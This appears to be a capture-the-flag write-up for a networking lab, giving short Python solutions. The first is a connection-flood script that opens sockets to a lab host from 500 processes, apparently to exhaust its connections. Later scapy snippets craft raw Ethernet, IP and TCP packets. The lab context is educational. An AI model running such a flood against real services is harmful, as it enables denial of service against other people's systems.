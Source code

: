 At least I waited for 3 min for this challenge.

```py
import concurrent.futures
import socket

def attack(ip, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, 31337))
    return s

def worker(index):
    while True:
        ss.append(attack("10.0.0.2", 31337))

global ss
ss = []

with concurrent.futures.ProcessPoolExecutor(max_workers=500) as executor:
    futures = [executor.submit(worker, i) for i in range(2049)]

concurrent.futures.wait(futures)
```

# Ethernet

Run `/challenge/run` first.

```py
from scapy.all import *
# the source mac addr and iface is got by `ip link`
eth = Ether(dst="ff:ff:ff:ff:ff:ff", src="b6:6f:c4:08:35:9d", type=0xffff)
pkt = eth / "Hello, Ethernet!"
sendp(pkt, iface="eth0")
```

# IP

Run `/challenge/run` first.

```py
from scapy.all import *
send(IP(dst='10.0.0.2', proto=0xff))
```

# TCP

Run `/challenge/run` first.

```py
from scapy.all import *
pkt = IP(dst='10.0.0.2')/TCP(sport=31337, dport=31337, seq=31337, ack=31337, flags='APRSF')
send(pkt)
```
